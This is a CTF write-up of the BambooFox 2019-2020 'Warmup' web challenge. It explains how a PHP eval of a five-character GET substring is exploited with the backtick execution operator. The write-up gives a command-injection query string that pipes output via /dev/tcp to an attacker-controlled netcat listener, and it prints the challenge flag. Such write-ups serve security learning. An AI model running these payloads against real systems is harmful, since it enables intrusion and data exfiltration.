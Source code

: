 ```yaml
---
layout: post
title: BambooFox CTF 2019-2020 Official Writeup for [Web] Warmup
date: 2020-01-03 13:52 +0800
tags:
  - CTF
---
```


*Web, 25 solves, 294 points.*

> This challenge is to increase your confidence.
>
> http://34.82.101.212:8003/ (down)  
> http://ctf.bamboofox.cs.nctu.edu.tw:8003/
>
> author: djosix

The source code:

```php
<?php

    highlight_file(__FILE__);

    if ($x = @$_GET['x'])
        eval(substr($x, 0, 5));

```

Actually you can use PHP [execution operator](https://www.php.net/manual/en/language.operators.execution.php) to execute arbitrary command like this:

```
?x=`$x`;sleep 1
```

So, you just open a TCP listener on your server:

```shell
nc -lv 9999
```

And send this query string:

```
?x=`$x`;bash -c 'ls > /dev/tcp/your-server.com/9999'
```

Then you could recieve the flag from TCP server.

```
BAMBOOFOX{d22a508c497c1ba84fb3e8aab238a74e}
index.php
```
